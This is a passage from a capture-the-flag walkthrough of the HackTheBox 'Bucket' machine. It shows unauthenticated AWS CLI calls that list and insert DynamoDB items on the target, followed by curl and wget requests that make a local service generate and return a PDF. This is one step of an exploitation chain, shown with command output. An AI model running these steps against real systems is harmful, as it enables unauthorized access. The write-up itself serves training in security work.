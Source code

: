 Let us verify that we have created the table.

```bash
root@darkness:~# aws --endpoint-url http://s3.bucket.htb dynamodb list-tables --no-sign-request
{
    "TableNames": [
        "alerts",
        "users"
    ]
}
```

We successfully created the table, let us add entries to the table next.

```bash
root@darkness:~# aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item '{"title":{"S":"Ransomware"}, "data": {"S":"TEST"}}' --no-sign-request
```

We can now interact with the application again and try to download the `result.pdf` file.

```bash
root@darkness:~# curl 127.0.0.1:8000 -d 'action=get_alerts'
root@darkness:~# wget 127.0.0.1:8000/files/result.pdf
--2021-01-14 19:19:50--  http://127.0.0.1:8000/files/result.pdf
Connecting to 127.0.0.1:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1628 (1.6K) [application/pdf]
Saving to: ‘result.pdf’

result.pdf                    100%[===============================================>]   1.59K  --.-KB/s    in 0s

2021-01-14 19:19:52 (192 MB/s) - ‘result.pdf’ saved [1628/1628]
```

Let us check out the pdf-file now.

```bash
root@darkness:~# xdg-open result.pdf
```

![Test pdf](/assets/htb/Bucket/pdf/test-pdf.png)

